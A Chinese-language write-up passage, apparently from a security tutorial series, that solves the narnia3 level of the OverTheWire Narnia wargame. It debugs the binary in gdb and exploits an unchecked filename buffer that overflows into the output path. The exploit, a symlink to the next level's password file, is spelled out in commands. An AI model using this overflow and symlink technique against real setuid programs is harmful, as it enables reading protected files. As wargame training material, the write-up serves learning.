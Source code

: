 这个程序接收一个文件名作为输入,然后将该文件的内容复制到第二个文件中，该文件指向```/dev/null```.

我们特别感兴趣的是变量被声明的顺序:

```c
char ofile[16] = "/dev/null";
char ifile[32];
```


[/dev/null]: http://en.wikipedia.org/wiki/Null_device


### Step 2: 了解内存中发生了什么

让我们调试这个二进制文件，看看我们如何利用它.首先是一个简单的3字节输入:

```
(gdb) set args "`python -c 'print "a"*3'`"
(gdb) r
Starting program: /games/narnia/narnia3 "`python -c 'print "a"*3'`"
error opening aaa
```

好的,它是有意义的, 没有这样的文件.现在我们来试试*ifile*的大小:

```
(gdb) set args "`python -c 'print "a"*32'`"
(gdb) r
Starting program: /games/narnia/narnia3 "`python -c 'print "a"*32'`"
error opening
```

嗯, 有趣. 它不输入任何名字.让我们少用一个字节:

```
(gdb) set args "`python -c 'print "a"*31'`"
(gdb) r
Starting program: /games/narnia/narnia3 "`python -c 'print "a"*31'`"
error opening aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

前面的示例显示了溢出*ifile*后的第一个字节.最后一个例子以数组中的最后一个可能的字节结尾.一旦我们溢出*ifile*,它跳过检查，直接检查*ifile*是否是一个有效的名称.真真是极好的!



### Step 3: 编写和应用开发
在*ifile*里我们希望发生两件事:首先,读取密码文件,然后溢出*ofile*, 让它指向一个我们可以读取的文件.

将所有这些都放入一个输入名的最好方法是创建一个具有以下规则的符号链接:

1. 指向*/etc/narnia_pass/narnia4*.
2. 用junk填充*ifile*数组的32个字节.
3. 以我们之前创建的一个文件名结尾，并且我们有权限读取(我们可以使用```touch```来创建一个空文件).

结果,对于一个文件名*out*,是:
```sh
$ ln -s /etc/narnia_pass/narnia4 $(python -c "print 'A'*32 + 'out'")
```

现在我们可以运行它并检索我们的密码:
```sh
narnia3@melinda:/tmp$ /narnia/narnia3 `python -c "print 'A'*32 + 'out'"`copied contents of AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAout to a safer place... (out)
narnia3@melinda:/tmp$ cat out
```


[未经边界检查的输入]: http://en.wikipedia.org/wiki/Bounds_checking
[缓冲区溢出]: http://en.wikipedia.org/wiki/Buffer_overflow
[进程的虚拟内存]: http://en.wikipedia.org/wiki/Virtual_memory
[物理内存]: http://en.wikipedia.org/wiki/Computer_memory
[虚拟内存空间]: http://en.wikipedia.org/wiki/Virtual_memory
[堆栈的方向]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[内存段异常]: http://en.wikipedia.org/wiki/Segmentation_fault
[堆]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[这里是一些例子]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP